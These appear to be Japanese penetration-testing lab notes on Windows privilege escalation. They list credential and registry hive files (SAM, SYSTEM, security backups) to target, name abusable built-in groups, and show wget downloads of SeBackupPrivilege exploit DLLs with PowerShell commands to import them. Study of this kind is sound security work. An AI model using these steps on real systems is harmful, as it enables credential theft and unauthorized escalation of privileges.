 使うことができるファイル
```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
- 特権を昇格させたり、アクセスをさらに進めたりするために、機密情報を抽出するためにターゲットにできる .kdbx KeePass データベースファイル、OneNote ノートブック、`password.*`、`pass.*`、`creds.*`、スクリプト、その他の構成ファイル、仮想ハードドライブファイルなどにも遭遇する可能性がある

# Windowsグループ権限
## Windows組み込みグループ
注目すべきのwindows組み込みレポート
- [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators)
- [Event Log Readers](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-eventlogreaders)
- [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-dnsadmins)
- [Hyper-V Administrators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-hypervadministrators)
- [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-printoperators)
- [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

### Backup Operators
- [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators)メンバーシップは、メンバーに SeBackup および SeRestore 特権を付与する
- SeBackupPrivilege を使用すると、任意のフォルダーをトラバースし、フォルダーの内容を一覧表示できる
	- これにより、フォルダーのアクセス制御リスト (ACL) に ACE (アクセス制御エントリ) がなくても、フォルダーからファイルをコピーできる
	- 代わりに、FILE_FLAG_BACKUP_SEMANTICS フラグを指定して、プログラムでデータをコピーする必要がある

以下のライブラリを使用して SeBackupPrivilege を悪用し、このファイルをコピーできる
```sh
wget https://github.com/k4sth4/SeBackupPrivilege/raw/refs/heads/main/SeBackupPrivilegeUtils.dll
wget https://github.com/k4sth4/SeBackupPrivilege/raw/refs/heads/main/SeBackupPrivilegeCmdLets.dll

```

```powershell-session
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
